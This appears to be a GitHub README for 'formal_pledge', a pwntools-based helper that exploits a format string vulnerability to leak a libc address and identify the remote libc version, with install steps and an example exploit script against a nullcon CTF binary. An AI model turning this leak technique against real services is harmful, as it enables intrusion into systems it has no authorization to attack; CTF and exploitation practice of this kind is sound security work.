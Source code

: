 # formal_pledge

Have a format string vulnerability? Need the remote LIBC version? Fret not! **formal_pledge** looks for the `__libc_start_main` return from main, and checks its address against an offset database it builds using [libc-database](https://github.com/niklasb/libc-database) and pwntools [libc_start_main_return](https://docs.pwntools.com/en/stable/elf/elf.html#pwnlib.elf.elf.ELF.libc_start_main_return).

# Install
```bash
git clone https://github.com/k4lizen/formal_pledge.git
cd formal_pledge
pip install -e .
```
Then edit the `formal_pledge/libc_database_location.py` file to set the [libc-database](https://github.com/niklasb/libc-database) database location.

# Usage
```python
import formal_pledge
# ...
formal_pledge.run(exec_function, binary_elf)
```
`exec_function` is a function which takes the payload as the only parameter. Returns the printed format string and the process object (see example). `formal_pledge` will take care of closing the process.

If a `process()` is supplied, exact offset will be calculated with [pwntools elf.libs()](https://docs.pwntools.com/en/stable/elf/elf.html#pwnlib.elf.elf.ELF.libs), otherwise if the object is `remote()` only the last 12 bits of the address will be compared.

On the first run, the `offsets.txt` file may need to be populated, this step is skipped in subsequent runs (unless new libc files are added to the database).

## Example
Can also be seen/run in the `example` directory.
```python
from pwn import *
import formal_pledge

def start():
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    return process([exe])

def get_libc_send_payload(payload):
    p = start()
    p.recvuntil(b'>> ')
    p.sendline(payload)
    p.recvline()
    resp = p.recvline()
    return resp, p

# binary from https://ctf.nullcon.net/challenges
exe = './junior_formatter'
elff = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

# python exploit.py REMOTE 52.59.124.14 5031
# python exploit.py 
formal_pledge.run(get_libc_send_payload, elff)
```
To run:
```bash
cd example
chmod +x junior_formatter
python exploit.py
```